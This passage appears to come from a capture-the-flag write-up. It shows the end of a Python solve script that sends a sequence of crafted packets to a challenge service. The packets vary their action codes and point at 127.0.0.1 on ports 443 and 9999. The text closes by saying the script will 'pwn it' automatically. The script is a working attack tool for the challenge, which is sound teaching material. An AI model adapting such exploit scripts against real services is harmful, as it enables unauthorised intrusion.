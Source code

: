 ```
    conn.send(sendme)
    line = conn.recvline()
    print(line)
    line = conn.recvline()
    print(line)
    sleep(1)
    line = conn.recvline()
    print(line)

this_time = int(time.time())

my_packet = craft_packet(
    payload_ip=2130706433, # decimal ip for 127.0.0.1
    payload_port=443,
    timestamp=this_time, # unix epoch
    action=1,
    datafield_1_contents=b"\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10",
    datafield_2_contents=b"\x10\x10\x10\x10\x10\x10\x10\x10"
)
response_cycle(conn, my_packet)

my_packet = craft_packet(
    payload_ip=2130706433, # decimal ip for 127.0.0.1
    payload_port=443,
    timestamp=this_time, # unix epoch
    action=2,
    datafield_1_contents=b"",
    datafield_2_contents=b""
)
response_cycle(conn, my_packet)

my_packet = craft_packet(
    payload_ip=2130706433, # decimal ip for 127.0.0.1
    payload_port=443,
    timestamp=this_time, # unix epoch
    action=3,
    datafield_1_contents=b"",
    datafield_2_contents=b""
)
response_cycle(conn, my_packet)

my_packet = craft_packet(
    payload_ip=2130706433, # decimal ip for 127.0.0.1
    payload_port=9999,
    timestamp=this_time, # unix epoch
    action=5,
    datafield_1_contents=b"",
    datafield_2_contents=b""
)
response_cycle(conn, my_packet)
```

This will pwn it for you automatically.